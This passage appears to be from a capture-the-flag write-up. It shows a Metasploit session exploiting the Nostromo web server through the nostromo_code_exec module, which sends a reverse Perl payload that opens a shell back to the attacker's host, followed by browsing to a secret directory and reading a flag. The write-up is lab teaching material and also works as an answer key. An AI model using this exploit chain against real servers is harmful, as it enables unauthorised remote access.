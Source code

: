 ```
msf6 exploit(multi/http/nostromo_code_exec) > set RPORT 80
RPORT => 80
msf6 exploit(multi/http/nostromo_code_exec) > set LHOST <OPENVPN_IP>
LHOST => <OPENVPN_IP>
msf6 exploit(multi/http/nostromo_code_exec) > run

[*] Started reverse TCP handler on <OPENVPN_IP>:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 2 opened (<OPENVPN_IP>:4444 -> <MACHINE_IP>:36402) at 2021-04-17 14:55:53 +1000

shell
_nostromo@ubuntu:/bin$ cd /var/nostromo/htdocs
_nostromo@ubuntu:/var/nostromo/htdocs$ ls -la
total 20
drwxr-xr-x 3 _nostromo _nostromo 4096 Dec  5  2019 .
drwxr-xr-x 6 _nostromo _nostromo 4096 Dec  5  2019 ..
-rw-r--r-- 1 _nostromo _nostromo  564 Dec  5  2019 index.html
-rw-r--r-- 1 _nostromo _nostromo 1827 Dec  5  2019 nostromo.gif
drwxr-xr-x 2 root      root      4096 Dec  5  2019 s3cretd1r
```
**Answer**: `s3cretd1r`
### What are the contents of the file inside of the directory?
```
_nostromo@ubuntu:/var/nostromo/htdocs$ cd s3cretd1r
_nostromo@ubuntu:/var/nostromo/htdocs/s3cretd1r$ ls
nice
_nostromo@ubuntu:/var/nostromo/htdocs/s3cretd1r$ cat nice
Woohoo!
_nostromo@ubuntu:/var/nostromo/htdocs/s3cretd1r$
```
**Answer**: `Woohoo!`